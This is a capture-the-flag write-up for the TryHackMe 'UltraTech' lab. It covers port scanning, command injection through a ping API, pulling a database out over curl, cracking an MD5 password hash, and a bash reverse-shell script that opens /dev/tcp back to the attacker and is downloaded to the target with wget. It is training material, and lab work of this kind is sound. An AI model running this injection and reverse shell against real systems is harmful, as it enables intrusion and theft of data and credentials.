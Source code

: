 # UltraTech Writeup (THM)

### tags
* security
* pentest
* enumeration
* web

### set of questions 1
* which software is using the port 8081 ?
* which other non-standard port is used ?
* which software using this port ?
* which GNU/Linux distribution seems to be used ?
* the software using the port 8080 is a REST api, how many of its routes are used by the web application ?

### set of questions 2
* There is a database lying around, what is its filename? 
* What is the first user's password hash?
* What is the password associated with this hash?

### set of questions 3
* What are the first 9 characters of the root user's private SSH key? 

---

## set of questions 1

we ping the target and the ICMP TTL indicates us that it's a Linux Machine  
![](./contents/screenshots/screenshot1.png)  

with nmap we discover 4 open ports  
![](./contents/screenshots/screenshot2.png)  

this is enough to answer the first 4 questions :  
* *which software is using the port 8081 ?* 		**Node.js**
* *which other non-standard port is used ?* 		**31331**
* *which software using this port ?* 			**Apache**
* *which GNU/Linux distribution seems to be used ?*	**Ubuntu**

the last question is *the software using the port 8080 is a REST api, how many of its routes are used by the web application ?*  
i suppose they are talking about the 8081 port, not 8080  
now we use gobuster on the port 8081 to find the routes and we find 2, */auth* and */ping*

---

## set of questions 2

now we use gobuster on port 31331 and we discover the login page */partners.html*  
looking the code, we can see that it's using the API on port 8081  
every 10 seconds, it uses */ping?ip=<***IP***>* to confirm that the host is up  
when we try to log in, it uses */auth?login=<***username***>&password=<***password***>*  

i confirm that */ping* is using the command **ping**, so it might vulnerable to **command injection**  
after some tries, this is the injection that works for me  
![](./contents/screenshots/screenshot3.png)  

since i'm not able to make it display the output, i send the output of "ls -lha" to a file, and send it to my machine with curl  
![](./contents/screenshots/screenshot4.png)  
![](./contents/screenshots/screenshot5.png)  
![](./contents/screenshots/screenshot6.png)  

we see that the answer to the question *There is a database lying around, what is its filename?* is **utech.db.sqlite**  

we use the same technique to transfer de ddbb to our machine  
we see the user **r00t** with the hash **f357a0c52799563c7c7b76c1e7543a32**  
we search the hash on google, and we find [this page](https://md5.j4ck.com/14777) that includes that hash  
the unhashed password is **n100906**  

so we have answered the remaining questions, and we have the credentials **r00t:n100906** that work on */partners.html*  
Great !!!

---

## command injection script

im gonna be a little fancy here before continuing  
this is just for the sake of it, but i'm practicing bash scripting and i just learned how to color output  
lets make an script that applies the technique used on */ping* to achieve easy RCE and a reverse shell  

so this is the way it works : we start the script with params **remote ip** and **local ip**  
also, we need to start a listener on port 80 of our machine  
![](./contents/screenshots/screenshot7.png)  

now we enter a command and the output will be displayed on the listener  
![](./contents/screenshots/screenshot8.png)  

the script will end, and if we need to enter another command we have to execute the script and start the listener again  

### reverse shell

after trying different techniques, the one that worked for me was :  

create the following script **shell.sh** on my machine
```bash
#!/bin/bash

bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1
```

start an http server  

download it on the remote machine with **wget**  

give permissions to it with ```chmod +x shell.sh```

start a listener on the local port specified

execute it with ```./shell.sh```

we have a reverse shell on the remote machine !!!


